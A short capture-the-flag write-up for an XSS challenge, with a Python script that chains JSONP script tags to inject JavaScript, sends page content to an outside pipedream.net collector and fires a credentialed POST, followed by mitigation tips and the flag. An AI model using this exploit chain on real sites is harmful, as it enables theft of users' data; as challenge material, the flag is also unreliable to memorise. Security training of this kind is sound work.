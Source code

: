 ## Code
```python
import requests

s = requests.Session()

def quote(s):
    return s.replace("=","%3d").replace(" ","+").replace("\n",";")

def exec_js(js):
    url = "http://xss.allesctf.net/?search="
    for j in js:
        url+="%%3Cscript%%20src='http://xss.allesctf.net/items.php?cb=%s//'%%3E%%3C/script%%3E" %(quote(j))
    return url

print(exec_js([
"""
var c=String.fromCharCode(60,62,39)""",
"""
l=`name" ${c[1]}${c[0]}a id=backgrounds name=${c[2]}${c[0]}script${c[1]}$.get("https://enm1wlnbn5g4.x.pipedream.net/".concat($(".col-8 ${c[1]} b")[0].textContent))${c[2]}${c[1]}${c[0]}/a${c[1]}${c[0]}!--`
"""%(),
"""
p = {headers:{"Content-type":"application/x-www-form-urlencoded"},method:"POST",credentials:"include",body:`bg=${l}`}
""",
"""
t = document.getElementById("stage2").href
k=function(){location=t}
fetch(t, p).then(k).catch(k)
"""
]))
```
## Mitigation
- do proper input validation
- use nonces and no `JSONP`, do what the `CSP` evaluator says

## Flag
CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}